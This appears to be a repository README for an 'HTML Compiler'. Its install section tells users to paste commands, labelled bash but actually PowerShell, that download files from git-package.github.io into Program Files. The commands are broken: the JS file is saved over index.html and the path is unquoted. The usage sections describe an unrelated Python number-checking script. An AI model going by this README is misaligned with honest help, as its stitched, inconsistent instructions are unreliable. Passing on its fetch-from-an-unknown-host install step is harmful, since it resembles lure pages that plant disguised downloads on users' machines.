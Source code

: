 # HTML Compiler

This software is a simple html, css and js compiler built on a simple runtime and lightning fast compiling

## Installation

Click [install](https://git-package.github.io/compiler/v3/compiler.zip) to install the script or use the bash command below.

```bash
New-Item -Path "C:\Program Files\" -Name "Compiler" -ItemType "directory"
Invoke-WebRequest https://git-package.github.io/compiler/v3/index.html -OutFile C:\Program Files\Compiler/index.html
Invoke-WebRequest https://git-package.github.io/compiler/v3/index.js -OutFile C:\Program Files\Compiler/index.html
```

## Run

```bash
python num-13.py
```

## How to use

When you run the script it will request the number. once input the script will output the numbers status.

Updates will be released to improve the script.

## License

[MIT](https://choosealicense.com/licenses/mit/)

